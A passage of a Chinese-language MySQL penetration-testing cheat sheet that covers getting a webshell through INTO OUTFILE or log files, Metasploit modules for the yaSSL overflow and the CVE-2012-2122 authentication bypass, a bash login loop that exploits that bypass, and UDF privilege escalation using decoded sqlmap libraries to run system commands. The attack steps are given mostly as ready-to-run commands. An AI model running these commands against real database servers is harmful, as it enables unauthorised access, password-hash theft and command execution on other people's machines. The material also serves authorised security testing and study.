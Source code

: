 ### Webshell 权限
 - 通过`into oufile`写`shell`.
 - 通过日志文件写`shell`.
 - 通过`Hash`值来获取与解密(存在`SQL`注入`DBA`权限且目标`3306`端口可以访问通).

## MySQL 历史漏洞
### yaSSL 缓冲区溢出
该漏洞可以直接使用`MSF`中的内置`Payload`进行攻击.

```sh
use exploit/windows/mysql/mysql_yassl_hello
use exploit/linux/mysql/mysql_yassl_hello
```

### CVE-2012-2122
[CVE-2012-2122 Detail](https://nvd.nist.gov/vuln/detail/CVE-2012-2122), 可以利用`vulhub`进行该漏洞的复现.

不知道`MySQL`正确密码的情况下, 在`bash`下运行如下命令, 在一定数量尝试后便可成功登录:

```bash
for i in `seq 1 1000`; do mysql -uroot -pwrong -h your-ip -P3306 ; done
```


该漏洞也可以直接使用`MSF`中的内置`Payload`进行攻击, 成功后会直接`DUMP`出`MySQL`的`Hash`值.

```sh
use auxiliary/scanner/mysql/mysql_authbypass_hashdump
set rhosts 127.0.0.1
run
```

## UDF 提权
`UDF`(user defined function), 即用户自定义函数. 是通过添加新函数, 对`MySQL`的功能进行扩充, 就像使用本地`MySQL`函数如`user()`或`concat()`等.

`UDF`提权就是利用创建的自定义函数`sys_eval`(该自定义函数可以执行系统任意命令), 且该`dll`文件需要存放在`MySQL`安装目录的`lib/plugin`目录下(当`MySQL>5.1`时, 该目录默认不存在). 在`MySQL`中调用这个自定义的函数来实现获取对方主机的`system`的`shell`权限, 从而达到提权的目的.

### 动态链接库
`UDF.dll`动态链接库文件可以在常用的工具`sqlmap`和`Metasploit`中找到, 需要注意的是`sqlmap`中自带的动态链接库为了防止被误杀都经过编码处理过, 不能被直接使用, 需要利用其自带的解码工具`cloak.py`来解码使用.

```sh
# 解码 32 位的 Linux 动态链接库
python3 cloak.py -d -i ../../data/udf/mysql/linux/32/lib_mysqludf_sys.so_ -o lib_mysqludf_sys_32.so

# 解码 64 位的 Linux 动态链接库
python3 cloak.py -d -i ../../data/udf/mysql/linux/64/lib_mysqludf_sys.so_ -o lib_mysqludf_sys_64.so

# 解码 32 位的 Windows 动态链接库
python3 cloak.py -d -i ../../data/udf/mysql/windows/32/lib_mysqludf_sys.dll_ -o lib_mysqludf_sys_32.dll

# 解码 64 位的 Windows 动态链接库
python3 cloak.py -d -i ../../data/udf/mysql/windows/64/lib_mysqludf_sys.dll_ -o lib_mysqludf_sys_64.dll
```
